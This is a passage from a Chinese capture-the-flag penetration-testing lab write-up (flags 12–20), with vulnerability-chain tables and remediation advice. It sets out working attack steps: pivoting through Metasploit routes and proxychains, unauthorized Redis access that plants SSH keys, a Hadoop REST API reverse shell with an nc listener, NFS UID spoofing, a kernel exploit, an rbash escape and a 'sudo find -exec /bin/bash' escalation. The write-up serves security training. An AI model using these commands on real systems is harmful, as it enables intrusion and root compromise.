	使用auxiliary/scanner/portscan/tcp模块指定172.10.10.0/24网段和6379端口进行扫描。扫描结果显示此网络内并无开放6379端口的机器。
	1.  查看是否存在域：net rpc group members ”domain controllers” –S ad
	2. 查看数据库配置，是否存在其它网段信息
	3. 查看www.qianxin.com数据库配置，是否存在其它网段信息
		发现192.168.100.40
	4. 查看www.qianxin.com的hosts文件
	5. 查看ARP信息

5. 添加新网段路由
	使用刚才收集到的192.168.100.0/24这个网段
	输入session -l 查看刚刚切换到后台的session id，切换回meterpreter会话并增加路由，使msfconsole中的
	所有模块均可以直接访问192.168.100.0/24网段。之后再次使meterpreter会话在后台运行，通过route print
	查看并确认路由添加成功。

6. 夺旗：flag12
	继续使用auxiliary/scanner/portscan/tcp模块，修改对应参数指定192.168.100.0/24网段和6379端口进行扫描。
	扫描结果为192.168.100.101，所以本任务的答案为 flag12{192.168.100.101}。
	

### 漏洞链条分析

|阶段|利用点|风险类型|
|---|---|---|
|Web入口|插件编辑上传木马|RCE + 文件上传漏洞|
|主机层|后门执行|系统配置不当、权限控制缺陷|
|网络层|路由添加+端口扫描|内网横向移动能力|
|服务层|Redis 未鉴权|数据库未授权访问漏洞|

### 安全建议
1. **限制 WebShell 上传与执行权限**  
    防止上传 ELF、PHP、EXE 可执行木马文件。
2. **网络隔离与 ACL 策略**  
    不同业务内网段间应通过防火墙实现精细访问控制。
3. **数据库/服务配置文件加密**  
    避免信息泄露暴露内网拓扑结构。
4. **部署端口监听告警机制**  
    及时发现内网横向扫描行为，实时响应封禁来源。
5. **MSF 会话持久化监控**  
    检测 C2 控制链及恶意会话保活策略，防止长期控制。

### 总结
flag12 的获取标志着内网攻击进入“资产探测”阶段。通过控制一台受害主机作为跳板，逐步穿透不同内网网段，实现多层横向移动与端口扫描，最终锁定 Redis 主机所在地址。


---

# 5. 实验五

## 问题十三
### 渗透流程
 <未授权访问漏洞>
1. 配置proxychains代理
	在前面的任务中，通过增加路由的方式可以使msfconsole中的所有模块访问目标网络192.168.100.0/24，
	但在kali本地无法直接通过redis-cli连接redis服务器，考虑借助Msf代理模块+proxychains组合实现。
	
2. 夺旗：flag13
	借助proxychains未授权访问redis成功，输入info命令查看redis所使用的配置文件，本任务的答案为 flag13{/etc/redis/redis.conf}


### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|网络渗透|Meterpreter 会话建立|通过前置渗透动作，已打通至目标内网（192.168.100.0/24）。|
|SOCKS代理|Msf 搭建内网 Socks5 代理|使用 `auxiliary/server/socks_proxy` 模块生成代理服务。|
|本地转发|Kali 本地配置 proxychains|修改 `/etc/proxychains.conf` 指向 127.0.0.1:1080。|
|Redis 未授权访问|使用 proxychains + redis-cli|代理执行 `redis-cli -h 192.168.100.X` 成功连接目标 Redis 服务。|
|信息读取|使用 `INFO` 命令获取配置|得到 Redis 配置文件路径 `/etc/redis/redis.conf`。|
|获取flag|flag13 即为 redis 配置路径|flag13{/etc/redis/redis.conf} 成功获取。|

### **修复建议**

|漏洞类型|防御建议|
|---|---|
|Redis 未授权访问|1. 禁止 Redis 对公网或不可信网络监听（仅允许 `127.0.0.1`）。2. 设置访问密码（`requirepass`）。3. Redis 4.0+ 使用 `bind` 限制 IP 访问。|
|网络隔离不当|1. 内网服务应启用访问控制列表（ACL）。2. 配置防火墙规则限制特定端口通信（如6379）。|
|渗透通道建立|1. 检测并封禁非法 Socks5 流量。2. 监控主机开启代理端口或流量异常（可用 IDS/EDR 系统）。|
|信息泄露风险|1. 减少 `INFO` 命令返回信息敏感度，或重定义敏感路径。2. 将 redis.conf 等配置移动到权限受限目录（如 `/root`）。|

### **总结**

该渗透点表明了**Redis 默认配置存在严重的未授权访问风险**，尤其在内网环境中，如无适当隔离、认证与端口限制，极易被 proxychains、socks5 等通道绕过并远程利用。

**flag13 的关键突破点在于代理通道搭建成功，以及 redis 无访问控制**。建议部署 Redis 实例时务必配置 `requirepass`、绑定本地 IP、禁用外网监听，同时建立跨域访问白名单。


## 问题十四
### 渗透流程
<Redis 未授权访问漏洞> + <SSH 免密登录漏洞>
1. 分析
	Redis数据库默认端口为6379，经常会有未授权访问漏洞，可导出SSH密钥进行免密登录

2. 夺旗：flag14
	Redis服务器存在未授权访问漏洞，本地生成ssh密钥对并向redis服务器写入ssh公钥。
	在kali本地借助proxychains代理ssh免密登录目标服务器192.168.100.101，查看/root目录下的文件，本任务的答案为 flag14{24e3f47dead05ce8}


### 漏洞链条分析

|阶段|具体利用|影响|
|---|---|---|
|访问 Redis|Redis 无密码保护|直接控制数据库|
|伪造 SSH 公钥|Redis 持久化 `authorized_keys`|提升权限|
|SSH 免密登录|直接 SSH 登录 root 用户|服务器全面失陷|


### 修复建议
1. **Redis 访问控制**
    - 配置访问密码
    - 修改绑定地址
    - 重命令高危指令
2. **SSH 安全防护**
    - 监控 `/root/.ssh/authorized_keys` 的文件改动
    - 限制允许登录的用户目录权限
    - 禁用 root 用户远程登录
3. **防火墙与入侵检测**
    - 使用防火墙限制 Redis 端口访问：
        ```bash
        iptables -A INPUT -p tcp --dport 6379 -j DROP
        ```
    - 配置 IDS 系统，对 Redis 命令行为进行监测

### 总结
- 该攻击链条利用 Redis 的未授权访问，篡改持久化行为将攻击者 SSH 公钥写入目标系统，绕过传统身份验证，最终获得 root 权限。
- 属于典型的 **权限提升 + 横向移动** 漏洞组合攻击，对生产环境构成极大威胁。
- 强化 Redis 配置与 SSH 安全控制可有效防范该类攻击。

## 问题十五
### 渗透流程
<内网 WEB 爆破> + <内网穿透代理>
1. 信息收集
	复用前面任务获取的blog所在机器的meterpreter会话，使用auxiliary/scanner/portscan/tcp模块指定192.168.100.0/24网段和80端口进行扫描，发现两个IP存在WEB服务。Firefox通过proxychains分别打开对应地址验证，从页面标题可以确定oa-web服务器的IP地址为192.168.100.100。

2. 思路
	本次任务是破解admin用户的密码，考虑到前面已经通过msf代理模块+proxychains组合实现了kali本地访问目标网段，但实验环境中的msf版本仅支持socks4代理(后续msf5/6版本支持socks5),而burpsuite只支持socks5版本，所以使用ReGeorq工具搭建socKs5代理，此处仍然借助blog站点的shell权限，上传对应的php脚本。将前面使用proxychains打开的firefox关闭掉，正常开启firefox并分别访问两个php脚本tunnel.socket.php显示可用。

3. 搭建反向代理
	用reGeorgSocksProxy.py连接上一步中的tunnel.socket.php并指定监听本地2222端口，显示隧道成功建立。
	再次查看本地2222端口的监听状态进一步确认。如此发往本地2222端口的流量都会转发至blog所在机器。
	

4. burpsuite重放爆破
	在burpsuite中切换至Project options选项，设置SOCKS Proxy配置模块为127.0.0.1:2222。切换到proxy选项卡，确认burp自身的监听端口设置且已勾选生效,并将intercepted设置为off状态。
	在浏览器配置代理后，在bp拦截登录请求并重放爆破。

5. 夺旗：flag15
	爆破密码为 777777 所以答案为 flag15{777777}


### 漏洞链条分析

| 阶段   | 工具/技术               | 目的                    |
| ---- | ------------------- | --------------------- |
| 信息收集 | nmap、meterpreter    | 掌握内网拓扑结构，识别目标主机       |
| 内网穿透 | reGeorg + Socks5    | 将 Kali 请求转发进内网，绕过边界防御 |
| 爆破攻击 | Burp Suite Intruder | 枚举弱口令，实现登录绕过          |
| 权限利用 | 后台访问权限              | 拿到 flag 信息            |


### 修复建议

|漏洞点|建议防护措施|
|---|---|
|Redis、WebShell|限制网络访问、关闭 debug 接口、加认证|
|reGeorg 脚本|启用 WAF，对 URL pattern 检测、拦截 tunnel 脚本|
|管理后台弱口令|强密码策略、验证码、爆破检测|
|内网被代理转发|限制代理、端口监听，防火墙层做隔离|
|后台接口防爆破|接口限速、验证码、IP黑名单机制|


### 总结
**目标内网 Web 系统未做访问控制，弱口令爆破缺乏防护机制，攻击者通过内网代理技术轻松完成密码破解**

---

# 6. 实验六

## 问题十六
### 渗透流程
<Hadoop未授权访问漏洞>
1. 扫描Hadoop端口
	复用之前使用proxychains搭建的反向代理扫描内网Hadoop服务端口，
	hadoop服务端口很多，这里选择 8030 端口扫描。
	发现 192.168.100.30 开放了 8030 端口。

2. 建立反弹shell端口
	<Hadoop未授权访问漏洞>
		提供有默认开放在8088和8090的RESTAPI(默认前者)允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，RESTAPI将会开放在公网导致未授权访问的问题，那么黑客则就均可利用其进行远程命令执行，从而进行挖矿等行为。

	在kali中新建一个终端，然后使用nc进行监听，nc -lvnp 6666

3. Hadoop建立新应用
	申请新的application，直接通过cur进行POST请求，但由于服务器在内网需要使用proxychains进行代理，新建一个终端然后输入以下命令，得到一个application-id，用于下一步操作 `proxychains curl -v -X POST 'http://192.168.100.30:8088/ws/v1/cluster/apps/new-application'`
	

4. 生成反弹shell数据包
	接下来构造json文件1.json。
	application-id可以快速替换:sed's/xxx/application-id/g 1.json >11.json

5. 夺旗：flag16
	发送反弹shell数据包，
	执行命令(只能执行一次，若想再次使用，需要修改application id)，
	在监听终端 cat 答案为 flag16{5486ef0e33d7ec34}。
	


### **漏洞链条分析**

|序号|漏洞环节|利用方式|安全风险|
|---|---|---|---|
|1|Hadoop 默认配置不当|Hadoop 集群暴露 **REST API** 接口，无需身份验证即可访问管理功能（如任务提交、命令执行）|攻击者可远程控制 Hadoop 节点，执行任意命令，造成 RCE|
|2|反弹 Shell 利用|利用 API 提交构造好的命令，实现反向连接至攻击者控制的监听端口（如 `nc -lvnp 6666`）|攻击者可获得远程 Shell，进一步渗透或横向移动|
|3|应用创建与任务提交|通过 `/new-application` 接口获得 `application-id`，再向集群提交嵌入恶意命令的 JSON 任务|利用标准接口执行非授权操作，绕过安全审计与控制机制|
### **修复建议**

|漏洞类型|防御措施|
|---|---|
|Hadoop 未授权访问|1. 禁用 Hadoop REST API 或仅限于内部网络访问。2. 在 API 接口中加入身份验证和访问控制，确保只有授权用户才能访问。3. 配置防火墙，限制对 Hadoop 管理端口（如 8088、8030 等）的外部访问。|
|反向 Shell 执行|1. 使用网络监控工具及时发现异常的反向连接请求。2. 针对反弹的 Shell 连接，使用端口扫描器定期扫描外部连接，检测非法连接。|
|API 安全性|1. 确保 API 中的命令执行不允许外部提交恶意操作。2. 对所有 API 操作进行参数验证，禁止执行任意系统命令。|


### **总结**

本次任务中，利用了 Hadoop 服务开放的 REST API 接口未做身份验证的漏洞，成功通过反弹 Shell 获取到目标系统的权限。通过代理与反向连接，能够成功执行恶意命令获取 flag。此类攻击在面对没有充分加固配置的系统时，极具威胁。

## 问题十七

### 渗透流程
<NFS(Network File System)未授权访问漏洞>
1. 探测内网NFS服务
	直接使用 msf 中的 portscan 对 192.168.100.0/24网段 的
	2049 端口进行扫描

2. 挂载NFS目录
	可以找到192.168.100.50存在NFS服务，可以尝试使用`proxychains mount -tnsf`命令进行nsf的挂载，但是发现无法挂载
	
	原因可能是:
	1. 网络问题:mount只是一个挂载工具，就算可以挂载上此网络服务，但是之后所有的访问就是通过挂载上的目录直接访问192.168.100.50地址了，但是本机并没有直达这个ip的路径，所以出现挂载失败的情况，那么想要找到一个可以直接连接到这个ip地址即可，
	2. 客户端问题:需要连接的这台机器中安装的nfs的客户端程序，否则就算连接到了内网机器上，如果这台机器没有nfs的客户端，也利用不了

3. 登录Redis跳板机
	前面任务中已经知道了一个存在redis未授权访问漏洞的机器，且已经向其中写入了公钥，现在也可以直接使用ssh进行连接，查看是否存在nfs客户端工具
	在终端中输入下面命令，连接成功
	`proxychains ssh root@192.168.100.101`

4. 使用Redis跳板机挂载NFS目录
	在redis机器中挂载192.168.100.50的ns服务，在挂载之前首先要知道nfs服务器导出的目录是什么，所以使用showmount命令来查看nfs的导出目录
	
	已经知道了nfs导出目录为/home，接下来可以直接挂载，输入命令 `mount -t nfs 192.168.100.50:/home /mnt`
	
	已经挂载成功了，尝试进入user1目录中查看其中的flag文件
	显示没有权限进入，使用命令查看一下文件夹权限

	从文件夹的属性中可以看出，只有uid为500的用户才有权限读写user1目录。接下来伪造所有者的uid来欺骗NFS服务器。

5. 伪造 SUID500的用户
	在kali的终端中输入下面命令创建一个uid为500的用户user1添加名为user1的用户
	```shell
	// 添加用户组，指定gid为500
	groupadd -g 500 user1 
	// 创建用户，uid为500
	useradd -u 500 -g user1 -s /bin/bash user1 -d /home/user1
	mkdir /home/user1
	```

6. 夺旗：flag17
	将home目录赋予user1用户权限:`chown-R500:500 /home/user1`
	切换到此用户，然后查看用户的uid值，uid值为500
	进入到/mnt/user1目录，可以看到 flag17{38b0b845490faadc}


### **漏洞链条分析**

|序号|漏洞环节|利用方式|安全风险|
|---|---|---|---|
|1|NFS 服务配置不当|NFS 服务未限制客户端来源，攻击者可通过内网扫描发现并挂载其共享目录|允许任意用户读取甚至修改服务器上的敏感文件|
|2|Redis 跳板机利用|通过 Redis 未授权访问上传公钥，攻击者可 SSH 登录 Redis 主机，并作为内网跳板访问其他资源|构建内网攻击通道，扩大攻击面|
|3|伪造用户身份|在本地创建 `uid=500` 的用户，模拟合法用户访问挂载目录 `/mnt/user1`|绕过 NFS 基于 UID 的访问控制，访问受限目录|
|4|挂载并访问 NFS 目录|利用跳板机挂载 `/home` 目录至本地，直接在本地文件系统访问远程内容|提高数据操作效率，扩大信息泄露范围|

### **修复建议**

|漏洞点|修复措施|
|---|---|
|NFS 服务配置不当|- 在 `/etc/exports` 中配置 **只允许可信 IP 段挂载**（如 `192.168.100.0/24`）- 使用 `no_root_squash` 时需特别小心，避免将 NFS 权限映射为 root- 在防火墙中限制 NFS 服务端口（2049），不对外开放|
|Redis 未授权访问|- 启用 `requirepass` 设置访问密码- 修改 Redis 配置文件 `bind 127.0.0.1` 或 `protected-mode yes` 限制外网访问- 禁止写入 `.ssh/authorized_keys` 等敏感路径|
|用户 UID 伪造|- NFS 服务端应使用 **身份映射（如 NFSv4 + Kerberos）** 来加强用户验证- 禁止对非授权 UID 用户访问敏感目录- 在关键目录中设置访问审计和监控|
|内网横向跳跃|- 内网各服务间进行**访问控制划分**，使用最小权限原则配置网络访问- 建立日志审计系统，及时检测横向访问行为|

### **总结**

本任务综合利用了多个常见漏洞（NFS 未授权访问 + Redis 跳板 + UID 伪造），构建了一条完整的 **内网横向渗透链**。攻击者通过弱访问控制实现远程目录挂载，并借助权限伪造技巧绕过用户限制，最终成功获取敏感文件。

此类问题暴露了企业内部服务之间缺乏严格的访问控制与认证机制，**配置错误+权限放松+缺少隔离** 是被利用的主要根源。建议通过 **访问控制加固、最小权限设计、统一身份认证机制** 等手段构建更为稳固的内网防御体系。

## 问题十八
### 渗透流程
<NFS 共享> + <SSH 无密码登录> + <内核提权漏洞>
获取内网网络文件服务器/root下的flag18

从上一个任务中可以得到一些信息，nfs服务器中存在user1这个用户，
且nfs服务将/home这个目录作为nfs共享的目录，其中有user1文件夹，
这个文件夹很可能是user1用户的家目录，
这样如果此服务器开放了ssh服务，
我们可以向/home/user1的.ssh目录下新建一个authorized_keys文件，
就很有可能可以在不需要知道user1用户密码的情况下进行ssh远程连接。


1. 探测NFS是否开放SSH服务
	使用SSH测试是否开放了SSH服务。

2. 创建.ssh 目录
	进入本机的/home/user1/，创建.ssh/，然后生成密钥。 
	为mnt/user1/创建.ssh/。
	然后把公钥复制到主机user1的ssh配置目录中

3. SSH登录NFS服务器
	连接目标服务器，输入`ssh user1@192.168.100.50`，
	如果失败可能有2个原因:
	1. .ssh目录的权限必须是700
	2. .ssh/authorized_keys文件权限必须是600
	使用`chmod 700 /mnt/user1/.ssh`
	与`chmod 600 /mnt/user1/.ssh/authorized_keys`修改权限后重新连接

4. 内核信息收集
	尝试读取/root目录下的flag，发现没有权限
	
	输入`uname -r`查看内核权限，尝试使用内核提权为root用户，
	从而读取/root目录下的flag。
	得到内核信息后，使用Kali系统中的 searchsploit工具，
	查找内核对应的提权代码命令为:`searchsploit centos kernel 2.6.x esc`

5. 内核提权
	拿到提权的脚本后，需要传到192.168.100.50服务器(NFS)中，
	有2种方法可以实现
	1. 将Redis服务器生成的id isa文件放到Kali中，实现Kal免密登录到NFS服务器，然后上传
	2. 修改NFS服务器的user1用户密码，Kali登录到NFS服务器，然后上传
	然后将文件复制到/mnt/user1中，也就是传到了NFS服务器中
	在Redis服务器中，使用user1免密登录到192.168.100.50
	编译此c文件
	将文件添加可执行权限
	执行此文件 ./exp 执行提权

6. 夺旗：flag18
	提权成功后，进入/root/查看 flag18{71cd5d36e8c32175}


### **漏洞链条分析**

|步骤|漏洞描述|
|---|---|
|**1. NFS 配置不当**|攻击者通过 NFS 探测到目标机器上的共享目录（如 `/home`），并访问到 `user1` 用户的家目录。|
|**2. SSH 无密码登录**|攻击者将公钥插入 `user1` 用户的 `.ssh/authorized_keys` 文件中，从而实现免密码 SSH 登录，绕过传统的密码验证。|
|**3. 内核提权漏洞**|攻击者通过查询系统内核版本并查找相关提权漏洞，利用漏洞脚本获得 root 权限。|
|**4. 上传提权脚本**|攻击者通过免密 SSH 登录或修改用户密码上传并执行提权脚本，从而成功提升权限并访问 `/root/flag18`。|

### **修复建议**

| 漏洞类型          | 防御措施                                                                              |
| ------------- | --------------------------------------------------------------------------------- |
| **NFS 未授权访问** | 1. 配置 NFS 访问控制，确保只有授权的 IP 可以挂载共享目录。 2. 禁止通过 NFS 共享敏感目录，尤其是 `/home` 或 `/root` 等目录。 |
| **SSH 无密码登录** | 1. 在 SSH 配置中启用 **密码认证**，禁止使用仅基于公钥的认证。 2. 限制公钥认证的使用，只允许授权用户添加公钥。                   |
| **内核提权漏洞**    | 1. 定期 **更新操作系统**，确保安装了最新的安全补丁。 2. 启用 **SELinux** 或 **AppArmor** 等安全增强机制，以限制进程权限。  |

### **总结**
本任务的成功入侵依赖于 **NFS 配置不当**、**SSH 无密码登录** 和 **内核提权漏洞**。要有效防范此类攻击，需确保 **NFS 访问控制** 严格、**SSH 安全配置** 完善，并定期 **更新操作系统和内核**，同时启用 **安全增强机制**，如 SELinux 或 AppArmor。

---

# 7. 实验七

## 问题十九
### 渗透流程
<弱口令爆破>
使用上一任务中的用户信息，扫描网络中使用此用户信息的服务器，读取用户目录下的flag。

1. 扫描内网SSH端口
	登录一台SSH服务器，需要知道IP、端口、用户名、密码4个要素，已知用户名，所以需要以下步骤
	1. 扫描内网哪些服务器开放了22端口
	2. 对开放端口的服务进行密码破解
	使用 msf 中的 portscan模块，然后指定192.168.100.0/24网络扫描

2. 使用user1破解内网ssh口令
	破解SSH一种是使用msf自带的ssh爆破工具，另一种使用hydra，
	课程使用MSF自带模块进行爆破。
	登录某台ssh需要两个信息，一个是用户名，另一个是密码，
	用户名已经指定，密码需要爆破，
	kali操作机中提供了password-top1000.txt文件。
	网络中存在多个服务器开放SSH，需要逐个爆破。

3. 夺旗：flag19
	使用爆破出来的密码进行登录，在终端中输入如下命令，然后读取/home/user1目录下的flag内容
	`proxychains ssh user1@192.168.100.60`
	发现读取动作受限，因为使用rbash，但是目的只是想读取文件，
	可以使用vim flag19来查看，flag19{33407fdc8ce55aa1}。
	


### **漏洞链条分析**

|漏洞阶段|漏洞描述|漏洞利用|
|---|---|---|
|**网络扫描和 SSH 爆破**|攻击者扫描内网中的 SSH 服务并对目标进行密码爆破。|使用 **Metasploit** 或 **Hydra** 进行 SSH 密码爆破。|
|**rbash 限制绕过**|**rbash** 限制了用户执行某些命令，但允许使用编辑器查看文件内容。|利用 **vim** 通过文件路径直接访问敏感文件，绕过限制。|
|**内网扫描和暴露端口**|内网中暴露的 SSH 服务端口可供攻击者进行扫描和入侵。|使用 **Metasploit** 进行端口扫描，发现开放的 SSH 服务并利用。|

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|**SSH 密码爆破**|1. 启用 **SSH 密钥认证**，禁止密码登录。 2. 实施 **账户锁定机制**，多次密码错误尝试后自动锁定账户。 3. 使用 **强密码策略**，避免使用弱密码。|
|**rbash 限制绕过**|1. 避免将敏感文件放在容易访问的位置。 2. 对用户的 rbash 环境进行严格的权限控制，禁止编辑器等工具的使用。|
|**内网扫描和暴露端口**|1. 对内网端口进行合理的访问控制，限制对敏感端口（如 SSH）的访问。 2. 使用 **防火墙** 和 **网络隔离** 来阻止不必要的端口暴露。|

### **总结**

本任务通过 **rbash shell 限制** 和 **SSH 密码爆破** 漏洞，成功获得了对目标机器的访问权限，并通过绕过 shell 限制读取了 **flag19** 文件。尽管 **rbash** 提供了一定的限制，但如果攻击者通过合适的工具绕过这些限制，仍然能够实现目标任务。

## 问题二十
### 渗透流程
<SSH 爆破> + <rbash突破>
获取服务器/root/ 下的flag。

1. 突破 Linux的 rbash
	如果要提权的话首先需要突破rbash的限制，获得一个正常的bash。
	利用vim程序的功能突破受限shell，连接到 192.168.100.60 后，
	在终端中输入vim。然后直接输入:`set shell=/bin/bash`
	回车后再输入:shell，这样会退出vim，进入一个新的shell，这是已经是正常的bash了。
	设置 `PATH=/home/user1/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

2. 确认当前用户 sudo权限
	查看允许当前用户通过sudo执行的命令，在终端输入sudo-l 

3. 夺旗：flag20
	查询出user1可以通过sudo命令执行find，则存在提权的可能性，输入命令，
	如果提示输入密码，请输入前边任务爆破成功的user1密码
	`sudo find/-name ls -exec /bin/bash \;`
	然后读取/root/ 下的 flag20{1f9af0fb69497927}。

### **漏洞链条分析**

|类型|问题描述|风险等级|
|---|---|---|
|SSH 弱口令|user1 密码可被暴力破解|高|
|rbash绕过|用户可通过 Vim / less / awk / nano 等工具绕出受限 shell|中|
|sudo 配置不当|允许低权限用户以 root 权限执行 `find`|高|
|提权路径缺乏限制|利用 `-exec` 参数直接执行命令获取 root|高|

### **修复建议**

|漏洞点|防御措施|
|---|---|
|SSH 弱口令|强制使用高强度密码，限制失败登录尝试次数，可启用 Fail2Ban。|
|rbash 绕过|禁用用户使用 Vim / less / awk 等可逃逸的交互工具，或使用 AppArmor 限制进程行为。|
|sudo 配置|使用 `NOPASSWD` 时指定白名单命令与参数，不应开放泛用工具（如 `find`、`bash`）。|
|用户隔离|建议部署时使用非 root 容器或非 root 用户沙箱技术，限制提权面。|

### **总结**
